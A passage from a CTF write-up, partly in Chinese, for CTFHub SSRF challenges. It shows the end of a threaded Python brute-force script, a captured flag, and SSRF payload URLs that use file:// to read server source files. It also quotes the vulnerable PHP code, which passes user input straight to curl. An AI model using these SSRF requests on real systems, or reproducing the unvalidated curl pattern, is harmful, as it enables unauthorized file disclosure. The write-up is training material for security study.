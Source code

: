 ```python
            break
        print(f"\r{len(urls) - qu.qsize()}/{len(urls)}", end='')

def main() -> None:
    threads = [threading.Thread(target=worker) for _ in range(num_threads)]
    for thread in threads: thread.start()
    for thread in threads: thread.join()

if __name__ == '__main__':
    main()
```

flag: `ctfhub{dd96c7727790ed6e30630ade}`

### SSRF - POST 请求

先读取源代码

```
http://challenge-c67d7344553cd3c4.sandbox.ctfhub.com:10800/?url=file:///var/www/html/index.php
```

```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

```
http://challenge-c67d7344553cd3c4.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php
```

```php
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
```